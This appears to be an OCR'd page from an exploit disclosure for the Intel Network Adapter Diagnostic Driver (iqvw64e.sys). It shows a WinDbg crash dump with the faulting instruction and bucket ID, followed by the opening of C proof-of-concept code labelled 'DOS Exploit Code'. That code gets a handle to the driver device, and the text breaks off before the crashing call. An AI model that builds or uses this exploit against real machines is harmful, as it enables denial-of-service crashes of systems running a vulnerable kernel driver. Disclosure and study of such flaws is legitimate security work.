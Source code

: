```cpp
00000000`0021e8a0 00000000`73b7d286 : 00000000`00000000 00000000`73b01920 00000000`0021eb30 00000000`773decf1 : wow64cpu!DeviceIoctlFileFault+0x31
00000000`0021e960 00000000`73b7c69e : 00000000`00000000 00000000`00000000 00000000`73b74b10 00000000`7ffe0030 : wow64!RunCpuSimulation+0xa
00000000`0021e9b0 00000000`773f4966 : 00000000`003331f0 00000000`00000000 00000000`774e2670 00000000`774b5978 : wow64!Wow64LdrpInitialize+0x42a
00000000`0021ef00 00000000`773f1937 : 00000000`00000000 00000000`773f4071 00000000`0021f4b0 00000000`00000000 : ntdll!LdrpInitializeProcess+0x17e3
00000000`0021f3f0 00000000`773dc34e : 00000000`0021f4b0 00000000`00000000 00000000`7efdf000 00000000`00000000 : ntdll! ?? ::FNODOBFM::`string'+0x28ff0
00000000`0021f460 00000000`00000000 : 00000000`00000000 00000000`00000000 00000000`00000000 00000000`00000000 : ntdll!LdrInitializeThunk+0xe
```

**FOLLOWUP_IP:**

```cpp
iqvw64e+3fd2
fffff880`05a0bfd2 488b11          mov     rdx,qword ptr [rcx]

SYMBOL_STACK_INDEX:  0

SYMBOL_NAME:  iqvw64e+3fd2

FOLLOWUP_NAME:  MachineOwner

MODULE_NAME: iqvw64e

IMAGE_NAME:  iqvw64e.sys

DEBUG_FLR_IMAGE_TIMESTAMP:  5284eac3

STACK_COMMAND:  .cxr 0xfffff8800653a9c0 ; kb

FAILURE_BUCKET_ID:  X64_0x3B_iqvw64e+3fd2

BUCKET_ID:  X64_0x3B_iqvw64e+3fd2
```


**DOS Exploit Code**

```cpp
#include <windows.h>
#include <stdio.h>
#include <conio.h>

int main(int argc, char **argv)
{
    HANDLE   hDevice;
    DWORD    bret;
    char     szDevice[] = "\\\\.\\Nal";

    printf("--[ Intel Network Adapter Diagnostic Driver DoS ]--\n");

    printf("Opening handle to driver..\n");
    // CreateFile(lpFileName, dwDesiredAccess, dwShareMode, lpSecurityAttributes, dwCreationDispoition, dwFlagsAndAttributes, hTemplateFile)
    if ((hDevice = CreateFileA(szDevice, GENERIC_READ | GENERIC_WRITE,0,0,OPEN_EXISTING,0,NULL)) != INVALID_HANDLE_VALUE)    {
        printf("Device %s succesfully opened!\n", szDevice);
        printf("\tHandle: %p\n", hDevice);
    }
    else
    {
        printf("Error: Error opening device %s\n", szDevice);
```